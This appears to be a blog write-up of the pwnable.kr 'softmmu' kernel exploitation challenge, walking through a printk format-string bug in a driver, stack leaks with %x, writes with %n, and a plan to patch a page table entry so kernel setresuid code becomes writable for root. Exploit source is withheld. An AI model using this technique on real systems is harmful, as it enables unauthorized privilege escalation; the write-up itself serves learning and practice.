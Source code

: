 Over the years of my CTF'ing I always come back to [pwnable.kr](https://pwnable.kr), although a tad outdated it's a vast source of simply awesome binary exploitation and pwn challenges. In particular their kernel exploitation series of challanges interest me - they're really well made and good introductory material on the matter. Per the policies on the site, this writeup won't share any source code and try to be minimal as possible.

The last of those challenges is *softmmu*, here's the readme:

> ***If you are good at kernel exploit, try this one :)***


<img src="./static/img/softmmu/softmmu.png" style="width:20%">

## The Challange
We're given two things: a Linux kernel object file containing some sort of a driver, and access to a fairly old Linux virtual machine loaded with said  driver. Before we open the executable for further inspection in IDA, let's SSH into the machine and check what it does.

```shell
...
[+] Loading x86 PAE MMU emulator
[+] Write the virtual address to /proc/softmmu
[+] You can obtain it's physical address by reading /proc/softmmu
[+] i.e. echo -ne 'x00x80x04x08' > /proc/softmmu; hexdump -C /proc/softmmu
[+] Let the kernel exploit begin :)

$ uname -a
Linux (none) 3.7.1 #1 SMP Mon Dec 23 06:07:19 PST 2013 i686 GNU/Linux
$ ls /*.ko
/softmmu.ko
```

*Hmm*, it prints out a pretty explanation for us :3 As the name softmmu hints - the module interfaces with the Linux kernel memory's and emulates a x86 Page Address Extension for the MMU. The interface with the module seems to be very straightforward, we write a virtual address to the device file /proc/softmmu and then read back the physical address.

## Finding A Vulnerability
Our end goal is to get root, so we definitely have to find a vulnerability to exploit in the softmmu module. Let's open the kernel object file in IDA to analyze:

<img src="./static/img/softmmu/overview.png" style="width:70%">

A fairly tame program, not too many functions and fairly straightforward structure. We are not going to reverse the entire program (since I found the vulnerability quickly) but here are some pointers:

~ We cannot request the physical addresses of ones outside userspace (seems important for the exploit).
~ It recursively traverses page table within the mmu_walk() function in order to retrieve addresses.
~ Program contains verbose output for debugging purposes.

The last point is particularly important; it allows us to understand the inner workings better and perhaps find a vulnerability to exploit, let's look at the debugging function.

```c
__int64 __usercall get_pte_entry@<edx:eax>(int a1@<eax>, char *a2@<edx>)
{
  int v2; // ebx

  v2 = *(_DWORD *)&a2[8 * ((a1 & 0x1FF000u) >> 12)];
  if ( (v2 & 1) != 0 )
  {
    printk("[Debug] PGD(%x) Dumpn", a2);
    printk(
      "[task:%s] %p:%02x %p:%02x %p:%02x %p:%02xn",
      (const char *)(__readfsdword((unsigned int)&current_task) + 740),
      a2,
      *a2,
      a2 + 1,
      a2[1],
      a2 + 2,
      a2[2],
      a2 + 3,
      a2[3]);
    printk("[Debug] Dump Virtual Addressn");
    printk("n===============================n");
    printk((const char *)req_vaddr);
    printk("n===============================n");
  }
  return v2;
}
```

Fairly bloaty raw decompiled code, but breaking it down it is very simple: it retrieves a page table entry from a PD64 (Page Global Directory entry). Besides the pretty cool kernel level code, the vulnerability here is glaringly obvious - the program passes the address we request (a global variable) to printk().

\> printk((const char *)req_vaddr);

#### Boom~! 

We found a string format vulnerability we can control :3 

## Writing The Exploit - Pt. 1
So far this hasn't been a challenge for kernel experts, even a script kiddie can find this vulnerability. I must admit, writing the exploit is much more difficult because a plethora of reasons.

In order to pass a format string to the module, we'd have to respectively allocate some bytes in the process memory space. Let's try compile a simple C program on the remote machine to do just that:

```shell
/tmp $ gcc pwn.c
sh: gcc: not found
```
*Oof*, that means we have to cross compile.
The first problem that imposes us is the fact the remote machine is running a really outdated version of the kernel, paired with the fact it doesn't have internet access it really limits us in how we compile and deploy for it.
The solution that I came up with was as follows
compile a static no-stdlib program -> compress it -> base64 the tar.gz -> do the reverse on remote.

#### This means writing a minimal libc from scratch, *good luck me*...

After a fair amount of work, I got to a level where I had all of the necessary API's to leverage the vulnerability
On local machine:

```shell
yael@covenstead:~/softmmu$ gcc pwn.c -nostdlib -m32 -static -o /dev/stdout | gzip - | base64 -w 0
H4sIAAAAAAAAA+1bfWwT5xlz3YSjziNYdmW0nR1p2iE0phAUpY0k0gCB2kFw4RYa9dS49hHEsd2PPtcEgYrzIuI5VnLgE2a1j+Q9v2hqdpUpPHPsqZt...
```

On Remote:

```shell
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%x %x %x %xn"
< paste base64 code here >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[<3] softmmu output: 0xBFB81288
```


Awesome~! Looking at the debug output it seems like we're able to leak addresses off the stack :3
Finally some progress, we should try running the forsakened %n...

```shell
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%65n"
< ... >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627]                                                               
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:A] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627]                                                        
======================================
[<3] softmmu output: 0xBFB81288
```
OMG, it worked and we wrote into the process name <3! (As seen in the debug messages) All of this work wasn't for nothing.

## Writing The Exploit - Pt. 2
Now for the second part of the exploit, we have to figure out how we take advantage of the format string vulnerability. This isn't like the average format string attack as it's not performed on a userland stack, but a kernel one. Besides our request address which occasionally surfaces down the stack we get nada.

Luckily for us we have a bunch of debug values on the stack, some of them might be incredibly useful to craft an exploit. ***Yes!*** The stack is setup in a way we can write to the page table entry any arbtriary value we want, hence we can change the permissions of kernel pages and execute ring 0 supervisor code with user permissions and vice versa :3
(We have a pointer for each byte and the corresponding address)

Since we have to fully comperhend the paging mechanism in full detail to execute this exploit properly, here's a diagram of the Page Table Entry structure:

<img src="./static/img/softmmu/pte.png" style="width:70%">

There are many bits and flops, but assuming basic knowledge of paging nothing is too out of ordinary. The first three flags are interesting: P (**P**resent), R/W (**R**ead/**W**rite) and U/S (**U**ser/**S**upervisor).
If the **P**resent bit is set then the page is actually in physical memory at the moment, if the **R**ead and **W**rite bit is set then the page is both readable and writable (if not then it is read only) and lastly the **U**Ser/**S**upervisor bit is set based on privellege level.

We can get to work on patching the bytes of the PTE, we are able to patch one of our userspace page entries to point to a physical adress that contains the kernel code of sys_setresuid() and make it writable. Once we got that we can flip the prillege check from je to jne, call setresuid(0) and obtain root >:3

```shell
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x
< ... >
{CENSORED_FLAG}
/ # whoami
```

## Conclusions
This without a doubt is a serious challenge full of hurdles. Personally for me it symbolizes some sort of maturity in my cybersecurity journey, I learned so much throughout and I can't wait to do more.

About the challenge itself, this post only showed the a small part of the failures. So much stuff I first tried didn't end up working at the end, this only shows how deep and complex it gets. I believe it is a prime example of diving deep and reading old documentation about the kernel's inner workings and trying to figure it all out.

<img src="./static/img/softmmu/softmmu_completed.png" style="width:20%">

TLDR: computer goes boop
